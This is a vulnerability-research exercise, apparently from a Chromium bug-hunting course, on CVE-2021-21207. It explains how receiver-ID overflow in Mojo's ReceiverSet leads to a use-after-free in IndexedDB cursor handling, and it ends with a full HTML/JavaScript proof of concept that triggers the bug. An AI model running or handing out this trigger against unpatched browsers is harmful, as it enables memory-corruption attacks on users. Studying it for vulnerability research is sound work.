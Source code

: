 # Exercise 4

In LEVEL 1, we can relay on Details and just to search for the func which Details mentioned. It is far away from the real bug hunting scene.

LEVEL 2 we do the same as LEVEL 1 without the help of Details.

But the bug report need Poc to assist developer reproduce the vulnerability, and know exactly what cause this bug. So LEVEL 3 need we construct Poc by ourselves.

## CVE-2021-21207
I sugget you don't search any report about it to prevents get too much info like patch. Our goal is to find some bugs, not construct Poc. But in truth, Poc can proof that we are right.



### Details

In level 3, we do it without the help of Details


---------

<details>
  <summary>For more info click me! But you'd better not do this</summary>

  https://bugs.chromium.org/p/chromium/issues/detail?id=1185732

</details>

--------

### Set environment

after fetch chromium
```sh
git reset --hard 86a37b3c8fdc47b0ba932644fd61bbc791c82357
```



### Related code

mojo/public/cpp/bindings/receiver_set.h

read this [doc](https://chromium.googlesource.com/chromium/src/+/668cf831e91210d4f23e815e07ff1421f3ee9747/mojo/public/cpp/bindings#Receiver-Sets) get info about Receiver Sets

### Do it
Do this exercise by yourself, when you have some idea, you can compare your answer with me. If you find my answer have something wrong, please tell me.


---------

<details>
  <summary>My answer</summary>

  This function only checks whether the ID is equal to 0, but does not judge whether the ID is reused.so if the has same id inset to container,will free the previous.
  ```c++  
  ReceiverId AddImpl(ImplPointerType impl,
                     PendingType receiver,
                     Context context,
                     scoped_refptr<base::SequencedTaskRunner> task_runner) {
    DCHECK(receiver.is_valid());
    ReceiverId id = next_receiver_id_++;
    DCHECK_GE(next_receiver_id_, 0u);
    auto entry =
        std::make_unique<Entry>(std::move(impl), std::move(receiver), this, id,
                                std::move(context), std::move(task_runner));
    receivers_.insert(std::make_pair(id, std::move(entry)));
    return id;
  }
  ```
  If we add id to maxsize,then extra add 1,will overflow.Insert same id ,will free previous , then we can use the freed pointer ,cause UAF.
  ```c++
  namespace mojo {

  using ReceiverId = size_t;

  template <typename ReceiverType>
  struct ReceiverSetTraits;
  ```
  Where can cause UAF? the poc  use cursor_impl pointer , cursor_impl_ptr->OnRemoveBinding
  ```c++
  mojo::PendingAssociatedRemote<blink::mojom::IDBCursor>
IndexedDBDispatcherHost::CreateCursorBinding(
    const url::Origin& origin,
    std::unique_ptr<IndexedDBCursor> cursor) {
  DCHECK_CALLED_ON_VALID_SEQUENCE(sequence_checker_);
  auto cursor_impl = std::make_unique<CursorImpl>(std::move(cursor), origin,
                                                  this, IDBTaskRunner());
  auto* cursor_impl_ptr = cursor_impl.get();
  mojo::PendingAssociatedRemote<blink::mojom::IDBCursor> remote;
  mojo::ReceiverId receiver_id = cursor_receivers_.Add(
      std::move(cursor_impl), remote.InitWithNewEndpointAndPassReceiver());
  cursor_impl_ptr->OnRemoveBinding(
      base::BindOnce(&IndexedDBDispatcherHost::RemoveCursorBinding,
                     weak_factory_.GetWeakPtr(), receiver_id));
  return remote;
}
  ```
**POC**
```html
<html>
    <script>
            var db;
            var first = 1;
            const indexedDB = window.indexedDB || window.webkitIndexedDB ||  window.mozIndexedDB;
            const request = indexedDB.open("aaa", 2);
            request.onsuccess = (e) => {
                db = e.target.result;
                console.log("success");
            };
            request.onupgradeneeded = (e) => {
                console.log("upgrade");
                db = e.target.result;
                if(!this.db.objectStoreNames.contains("dd2")){
                    this.store = this.db.createObjectStore("dd2", { keyPath: 'key'});
                }
            }
            request.onerror = (e) => {console.log('Can not open indexedDB', e);};
            const sleep = (timeountMS) => new Promise((resolve) => {
                setTimeout(resolve, timeountMS);
            });
            async function f(){
                console.log("in f")
                if(first==1){
                    first = 0;
                    await sleep(10000);
                    a = db.transaction(["dd2"],'readwrite');
                    b = a.objectStore("dd2");
                    c = b.openCursor();
                }
                var transaction = db.transaction(["dd2"],'readwrite');
                var objectstore = transaction.objectStore("dd2");
                objectstore.add({"key":1});
                for(var i =0;i<0x500;i++) {
                    var a1 = objectstore.openCursor(); //1
                }
            }
            var a;
            var b;
            var c; // c will hold cursor which id = 0
            f();
            for (var i =0 ;i<1000;i++){
                setTimeout(f,10000+1000*i)//when function f end,0x500 cursor in receivers_ will be removed to avoid oom
            }


    </script>
</html>
```

</details>

--------
